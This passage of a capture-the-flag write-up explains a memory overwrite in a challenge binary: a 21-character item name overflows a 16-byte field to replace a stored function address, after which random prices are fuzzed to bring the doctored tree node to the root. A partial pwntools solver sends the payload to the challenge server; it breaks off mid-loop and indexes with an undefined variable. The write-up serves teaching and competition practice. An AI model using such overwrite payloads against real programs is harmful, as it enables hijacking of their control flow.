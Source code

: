 It allocs 0x24 = 36 bytes (enough to hold 9 four-byte integers). From offset 8\*4 = 0x20 it stores the
default address 0x80487a6 used by *"the accounting software"* called in main (the call we want to hijack),
and we do read up to 0x15 = 21 chars that are then stored from position 4*4 = 0x10.
Notice, 21 is 5 more than 16, so we can in fact overwrite the complete address stored at byte offsets 0x20-0x23(!).

=> ***Step 2***: give an item name of the form (16 non-newline chars) + 0x78 + 0x88 + 0x04 + 0x08.

(The rest of the data are of no interest - if you care, nevertheless, then the 0th int is the price,
ints 1 and 2 are pointers to the left and right leaves, while int 3 is the balance factor of the node.)

### Fuzz the solution

Now we need this doctored node to be returned by the very last *insert()* in *main()*.

It is not that hard to figure out that the challenge used 
[AVL trees](https://en.wikipedia.org/wiki/AVL_tree), and the pointer returned by insert() is the root of the tree 
after insertion (there was the "Accounting Very Large" hint in the
challenge description, or you can just analyze the code). But you did not have to know any of that. All you 
needed was to realize that given your modified node, all control you have left
are these 4 price values you input, and whatever happens depends on the relationship (smaller, equal, greater)
between each price you enter and the prices already in the tree.

So instead of analyzing what you need to
do to get that node to the root of an AVL tree, you can just fuzz the problem.
The tree starts out with 10, 20, 30, 40, 50, 25 already entered, so picking 4 random values in the range [0,60] 
covers all potential cases. So, ***Step 3***: keep fuzzing the local binary until your numbers entered successfully overwrite the 
address in the *"I'll run the accounting software at address 0x80487a6"* sentence printed at the end.
Finally, ***Step 4***: send the item name and the winning numbers to the challenge server.


Here is the full solver in python:

```python
from pwn import *
import random

goal = b"\x78\x88\x04\x08"   #0x8048878


def getR(local):
   if local: return process("run.scr")
   else:     return remote("chal.uiuc.tf", 2001)


def run1(cvals, local, DBG = False):
   r = getR(local)

   in1 = r.recvuntil("Item:")
   if DBG: print(in1)
   r.send(b"a"*16 + goal + b"\n")     # send item name, address overwrite

   for i in range(4):
      in1 = r.recvuntil("Cost:")
      if DBG: print(in1)
      r.send(str(cvals[n]) + "\n")    # send each price

```